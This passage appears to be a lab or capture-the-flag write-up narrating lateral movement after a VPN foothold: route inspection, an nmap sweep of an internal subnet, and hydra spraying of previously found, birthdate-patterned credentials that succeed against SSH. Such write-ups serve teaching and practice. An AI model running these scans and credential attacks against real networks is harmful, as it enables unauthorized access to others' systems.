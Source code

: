New routes were added too.
```
❯ ip route
default via 192.168.4.1 dev eth0
10.8.0.0/24 dev tun1 proto kernel scope link src 10.8.0.2
10.9.0.0/24 via 10.8.0.1 dev tun1
<SNIP>
```

I ran `nmap` to enumerate the internal network.
```
❯ nmap 10.9.0.0/24
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-09 14:40 CST
Nmap scan report for 10.9.0.1
Host is up (0.21s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
389/tcp  open  ldap
636/tcp  open  ldapssl
2049/tcp open  nfs
3128/tcp open  squid-http

Nmap scan report for 10.9.0.4
Host is up (0.21s latency).
Not shown: 998 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
111/tcp open  rpcbind

Nmap done: 512 IP addresses (4 hosts up) scanned in 42.30 seconds
```

I noticed SSH ports were open. I proceeded to test the credentials I had found earlier using `hydra`.
```
❯ cat users.txt
elwin.jones:CorporateStarter04041987
laurie.casper:CorporateStarter18111959
nya.little:CorporateStarter21061965
brody.wiza:CorporateStarter14071992

❯ hydra -C users.txt ssh://10.9.0.4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-09 18:29:09
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries, ~1 try per task
[DATA] attacking ssh://10.9.0.4:22/
[22][ssh] host: 10.9.0.4   login: elwin.jones   password: CorporateStarter04041987
[22][ssh] host: 10.9.0.4   login: nya.little   password: CorporateStarter21061965
[22][ssh] host: 10.9.0.4   login: laurie.casper   password: CorporateStarter18111959
[22][ssh] host: 10.9.0.4   login: brody.wiza   password: CorporateStarter14071992
1 of 1 target successfully completed, 4 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-09 18:29:19
```
